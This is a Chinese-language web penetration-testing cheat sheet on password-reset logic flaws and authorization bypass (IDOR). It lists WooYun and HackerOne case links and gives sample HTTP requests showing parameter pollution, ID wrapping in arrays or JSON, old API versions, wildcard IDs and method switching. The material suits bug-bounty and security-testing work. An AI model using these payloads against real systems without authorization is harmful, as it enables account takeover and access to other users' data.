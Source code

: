 
<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [Forgot Password](#forgot-password)
  - [暴力破解](#暴力破解)
  - [凭证泄露](#凭证泄露)
  - [会话混淆](#会话混淆)
  - [邮箱弱token](#邮箱弱token)
  - [用户凭证有效性](#用户凭证有效性)
  - [接收端可篡改](#接收端可篡改)
  - [Others](#others)
- [绕过授权](#绕过授权)
  - [漏洞报告 (Hackerone)](#漏洞报告-hackerone)

<!-- /code_chunk_output -->


## Forgot Password

### 暴力破解

混淆手机号码字段爆破: 
- [微信任意用户密码修改漏洞](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-011720)

修改X-Forwarded-By来源地址爆破:
- [医疗安全之医事通任意手机号注册任意密码重置（绕过多次爆破显示繁忙） ](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0216112)

### 凭证泄露

数据包返回重置链接相关凭证:
- [天天网任意账户密码重置（二）](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-058210)
- [走秀网秀团任意密码修改缺陷](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-05630)

密保泄露在页面内:
- [sohu邮箱任意用户密码重置](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-04728)

数据包返回加密凭证字段(手机号/验证码):
- [新浪某站任意用户密码修改（验证码与取回逻辑设计不当）](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-085124)

### 会话混淆

创建被攻击者会话重制密码:
- [M1905电影网某重要站点任意密码重置漏洞（已入官方账号） ](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2016-0225958)
- [OPPO手机重置任意账户密码（3）](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-053349)

### 邮箱弱token

重置链接为Unix时间戳:
- [奇虎360任意用户密码修改漏洞](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2012-08333)

重置链接为普通时间戳:
- [中兴某网站任意用户密码重置漏洞（经典设计缺陷案例）](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-090226)

### 用户凭证有效性

重置链接token未绑定用户:
- [第二次重置OPPO手机官网任意账户密码（秒改）](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2014-053079)

### 接收端可篡改

重置凭证接收端未绑定用户+确认修改密码时未绑定用户:
- [OPPO官网用户密码重置等漏洞大礼包一个5）任意用户密码重置（二）](https://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2013-019649)

### Others

应数据包 JSON 内标识状态为 True
重置密码链接的 token/username

## 绕过授权

```
在末尾添加参数
HTTP 参数污染
如果站点是用 Ruby 构建的，则将.json 添加到末尾
测试历史 API 版本
用数组嵌套 ID
用 JSON 对象嵌套 ID:
参数污染
```

- 在末尾添加参数
```
GET /api_v1/messages --> 401 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

- HTTP 参数污染

```
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

- 如果站点是用 Ruby 构建的，则将.json 添加到末尾

```
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

- 测试历史 API 版本

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

- 用数组嵌套 ID

```
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

- 用 JSON 对象嵌套 ID

``` 
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
```

- 参数污染

```
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

- 尝试对base64,etc,md5加密的参数解密

```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
dmljdGltQG1haWwuY29t => victim@mail.com
```

- 尝试用数字替换 UUID

```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
GET /file?id=302
```

- 更换HTTP请求方式

```
GET /api/v1/users/profile/111 HTTP/1.1
POST /api/v1/users/profile/111 HTTP/1.1
OPTIONS * HTTP/1.1
```

- 使用通配符替换ID

```
GET /api/users/111 HTTP/1.1
GET /api/users/* HTTP/1.1
GET /api/users/% HTTP/1.1
GET /api/users/_ HTTP/1.1
GET /api/users/. HTTP/1.1
```

- 尝试使用一个通配符(*)来代替 ID。这种方法很少见，但是有时候是有效的
- 如果ID参数为数字，请确保通过大量的数字进行测试，而不是通过猜测
- 如果 URI 类似于/api/users/myinfo，请检查/api/admins/myinfo
- GET/POST/PUT 用 GET/POST/PUT 替换请求方法
- 使用BurpSuite autorize拓展
- 如果这些都不起作用，那就使用你所能想到的方式，到处去看看


### 漏洞报告 (Hackerone)

- [IDOR to delete images from other stores](https://hackerone.com/reports/404797)
- [IDOR in changing shared file name](https://hackerone.com/reports/547663)
- [User uploaded portfolio files can be accessed by any user even after deleted](https://hackerone.com/reports/300179)
- [IDOR and statistics leakage in Orders](https://hackerone.com/reports/544329)
- [I.D.O.R To Order,Book,Buy,reserve On YELP FOR FREE (UNAUTHORIZED USE OF OTHER USER'S CREDIT CARD)](https://hackerone.com/reports/391092)
- [IDOR allow access to payments data of any user](https://hackerone.com/reports/751577)
- [IDOR allow to extract all registered email](https://hackerone.com/reports/302485)
- [IDOR at https://account.mackeeper.com/at/load-reports/profile/<profile_id> leaks information about devices/licenses](https://hackerone.com/reports/783117)
- [IDOR bug to See hidden slowvote of any user even when you dont have access right](https://hackerone.com/reports/661978)
- [IDOR on update user preferences](https://hackerone.com/reports/854290)
- [idor on upload profile functionality](https://hackerone.com/reports/741683)
- [IDOR to view User Order Information](https://hackerone.com/reports/287789)
- [IDOR with Geolocation data not stripped from images](https://hackerone.com/reports/906907)
- [Replace other user files in Inbox messages](https://hackerone.com/reports/322661)